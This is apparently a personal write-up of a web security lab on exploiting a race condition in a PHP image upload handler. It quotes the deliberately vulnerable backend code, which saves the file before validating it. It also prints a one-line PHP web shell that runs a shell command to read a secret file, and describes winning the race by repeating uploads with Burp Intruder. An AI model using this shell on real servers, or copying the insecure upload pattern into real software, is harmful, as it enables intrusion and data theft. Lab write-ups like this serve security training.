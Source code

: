 ```yaml
---
tags: ["race condition"]
---
```


## Exploiting file upload race conditions

Modern frameworks are more battle-hardened against these kinds of attacks. They generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.

That said, developers sometimes implement their own processing of file uploads independently of any framework. Not only is this fairly complex to do well, it can also introduce dangerous race conditions that enable an attacker to completely bypass even the most robust validation.

For example, some websites upload the file directly to the main filesystem and then remove it again if it doesn't pass validation. This kind of behavior is typical in websites that rely on anti-virus software and the like to check for malware. This may only take a few milliseconds, but for the short time that the file exists on the server, the attacker can potentially still execute it.

These vulnerabilities are often extremely subtle, making them difficult to detect during blackbox testing unless you can find a way to leak the relevant source code.

## Challenge

> This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.
> To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.
> You can log in to your own account using the following credentials: `wiener:peter`

--> In this lab the backend code is looks like this :

```php
`<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```

--> This website is checking the file for viruses after upload so if we upload the file continuesly and then keep refresh the page then we can see the content of the file and it's called `race condition`

--> So i made one basic payload and injected it :

```php
<?php echo shell_exec('cat /home/carlos/secret'); ?>
```

--> after that i forwarded that request to intruder and then brute forced the `user-agent`

![](Attachments/Pastedimage20220125142120.png)

--> I brute forced using the number

![](Attachments/Pastedimage20220125133903.png)

--> Durint the brute force we can goto `/files/avatars/webshell.php` and refresh the page and get the flag!

![](Attachments/Pastedimage20220125134232.png)

--> And i we solved the lab!

![](Attachments/Pastedimage20220125134214.png)
